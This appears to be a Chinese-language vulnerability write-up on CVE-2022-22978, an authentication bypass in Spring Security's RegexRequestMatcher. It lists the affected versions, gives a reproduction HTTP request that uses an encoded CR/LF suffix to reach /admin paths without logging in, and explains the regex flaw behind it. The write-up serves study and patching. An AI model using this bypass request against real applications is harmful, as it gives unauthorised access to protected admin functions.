




# CVE-2022-22978 认证绕过漏洞

https://github.com/XuCcc/VulEnv/tree/master/springboot/cve_2022_22978

vulhub也有这个环境

当Spring-security使用 RegexRequestMatcher 进行权限配置，由于RegexRequestMatcher正则表达式配置权限的特性，正则表达式中包含“.”时，未经身份验证攻击者可以通过构造恶意数据包绕过身份认证。

**影响版本**

Spring Security 5.5.x < 5.5.7

Spring Security 5.6.x < 5.6.4

## 漏洞复现

```http
GET /admin/1%0d%0a HTTP/1.1
Host: 127.0.0.1:8080
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=E8E29D0409C6C153D1C825E11A344082
Connection: close
```



## 漏洞分析





对/admin路由下，任意路径进行匹配，在访问/admin/{name}接口时，需要认证才能访问

spring-security-web-5.6.3.jar包中，org.springframework.security.web.uti.matcher.RegexRequestMatcher#matchers中



request.getServletPath()会对字符解码 并且会将`;`之后的字符到`/`字符删除，随后通过getServletPath获取URL，尝试提取？后的参数进行拼接，然后使用正则表达式匹配。

其中HTTPServletRequest中对URL路径的几种解析方法。

```
request.getRequestURL()：返回全路径；
request.getRequestURI()：返回除去Host（域名或IP）部分的路径；
request.getContextPath()：返回工程名部分，如果工程映射为/，则返回为空；
request.getServletPath()：返回除去Host和工程名部分的路径；
request.getPathInfo()：仅返回传递到Servlet的路径，如果没有传递额外的路径信息，则此返回Null；
```

对于正则表达式，在正则表达式中元字符`“.”`是匹配除换行符（\n、\r）之外的任何单个字符，在java中的正则默认情况下“.”也同样不会包含\n、\r字符，所以RegexRequestMatcher在进行正则匹配时不会处理\n、\r，所以对于匹配来说，可以用\r\n这种方式绕过


参考链接：

https://www.freebuf.com/vuls/343980.html